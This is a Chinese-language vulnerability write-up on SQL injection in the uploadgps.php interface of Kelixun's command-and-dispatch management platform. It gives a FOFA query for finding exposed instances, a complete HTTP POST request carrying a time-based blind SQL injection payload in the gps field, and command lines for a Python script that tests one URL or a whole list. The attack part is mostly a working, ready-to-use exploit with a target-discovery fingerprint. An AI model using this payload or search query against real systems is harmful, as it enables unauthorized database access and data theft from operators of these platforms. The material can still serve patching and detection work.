 # 指挥调度管理平台uploadgps.php存在SQL注入

### 1.漏洞描述

### 1.漏洞描述

科立讯通信指挥调度管理平台是一个专门针对通信行业的管理平台。该产品旨在提供高效的指挥调度和管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。其uploadgps接口存在sql注入，恶意攻击者可能会向数据库发送构造的恶意SQL查询语句，以获取数据库敏感信息、修改数据或者执行其他恶意操作，还有可能直接通过sql注入获取服务器权限。

### 2.fofa语法

```plain
body="指挥调度管理平台"
```

### 3.漏洞复现

```plain
POST /api/client/task/uploadgps.php HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

uuid=&gps=1'+AND+(SELECT+7679+FROM+(SELECT(SLEEP(4)))ozYR)+AND+'fqDZ'='fqDZ&number=
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719922442029-51f3af5a-c725-424f-aed7-bcb0d6ef4760.png)

### 4.py脚本

```plain
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```
